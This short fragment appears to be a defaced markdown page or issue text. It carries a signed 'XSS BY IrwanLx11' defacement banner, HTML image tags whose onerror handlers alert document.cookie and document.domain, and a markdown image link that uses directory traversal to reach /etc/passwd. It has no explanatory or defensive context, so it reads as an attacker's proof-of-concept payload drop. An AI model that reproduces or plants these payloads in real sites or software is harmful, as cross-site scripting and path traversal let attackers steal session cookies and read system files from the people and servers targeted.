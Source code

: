 # -svg-prompt-document.cookie-
Hacked&lt;br>&lt;br>&lt;center>&lt;font color="red">XSS BY IrwanLx11&lt;br>&lt;br>&lt;img src=x onerror=alert(document.cookie)>&lt;br>&lt;br>&lt;img src=x onerror=alert(document.domain)>
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
